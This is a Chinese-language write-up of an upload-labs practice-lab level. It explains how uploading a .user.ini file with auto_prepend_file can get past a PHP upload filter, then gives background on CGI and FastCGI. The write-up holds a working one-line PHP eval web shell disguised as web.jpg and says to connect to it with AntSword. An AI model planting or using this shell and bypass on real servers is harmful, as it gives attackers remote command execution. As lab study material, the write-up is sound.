 ```ini
auto_prepend_file=web.jpg
;指定一个 PHP 文件，在每次 PHP 脚本执行之前会自动地被包含（include）进来
```

**web.jpg**

```php
<?php @eval($_POST['cmd']); ?>
```

**注意**：**php版本只能用5.3！！！**（版本特性）

然后用蚁剑连接（**包含的readme**）http://localhost/upload-labs-master/upload/readme.php



注：本人在这关用的环境是PHP5.3.29版本，并且使用cgi模式（这里只有nts，nt就是fastcgi模式）

查看源码并点开提示

源码里把所有可以解析的后缀名都给写死了，包括大小写，转换，空格，还有点号，正常的php类文件上传不了了，并且拒绝上传 .htaccess 文件。
反复观察发现没有被限制的后缀名有 .php7 以及 .ini

然后接着百度一番ini的知识

```shell
user.ini ： 自 PHP 5.3.0 起，PHP 支持基于每个目录的 .htaccess 风格的 INI 文件。此类文件仅被
   CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。如果使用 Apache，则用
   .htaccess 文件有同样效果。

   除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web
   根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

   在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI
   设置可被识别。

   两个新的 INI 指令，user_ini.filename 和 user_ini.cache_ttl 控制着用户 INI 文件的使用。

   user_ini.filename 设定了 PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。默认值是
   .user.ini。

   user_ini.cache_ttl 控制着重新读取用户 INI 文件的间隔时间。默认是 300 秒（5 分钟）。
```


php.ini 是 php的配置文件，.user.ini 中的字段也会被 php 视为配置文件来处理，从而导致 php 的文件解析漏洞。

但是想要引发 .user.ini 解析漏洞需要三个前提条件

```shell
服务器脚本语言为PHP  

服务器使用CGI／FastCGI模式  

上传目录下要有可执行的php文件
```

```
 什么是 CGI
       CGI 的全称为“通用网关接口”（Common Gateway Interface），为 HTTP 服务器与其他机器上的程序服务通信交流的一种工具， CGI 程序须运行在网络服务器上。

​       传统 CGI 接口方式的主要缺点是性能较差，因为每次 HTTP 服务器遇到动态程序时都需要重新启动解析器来执行解析，之后结果才会被返回给 HTTP服务器。这在处理高并发访问时几乎是不可用的，因此就诞生了 FastCGI。另外，传统的 CGI 接口方式安全性也很差，故而现在已经很少被使用了。
​       
​       什么是 FastCGI
​       FastCGI 是一个可伸缩地、高速地在 HTTP 服务器和动态服务脚本语言间通信的接口（在 Linux 下， FastCGI 接口即为 socket，这个socket 可以是文件 socket，也可以是IP socket），主要优点是把动态语言和 HTTP服务器分离开来。多数流行的 HTTP 服务器都支持 FastCGI，包括 Apache 、 Nginx 和 Lighttpd 等。

​       同时，FastCGI也被许多脚本语言所支持，例如当前比较流行的脚本语言PHP。FastCGI 接口采用的是C/S架构，它可以将 HTTP 服务器和脚本服务器分开，同时还能在脚本解析服务器上启动一个或多个脚本来解析守护进程。当 HTTP服务器遇到动态程序时，可以将其直接交付给 FastCGI 进程来执行，然后将得到结果返回给浏览器。这种方式可以让 HTTP服务器专一地处理静态请求，或者将动态脚本服务器的结果返回给客户端，这在很大程度上提高整个应用系统的性能。
```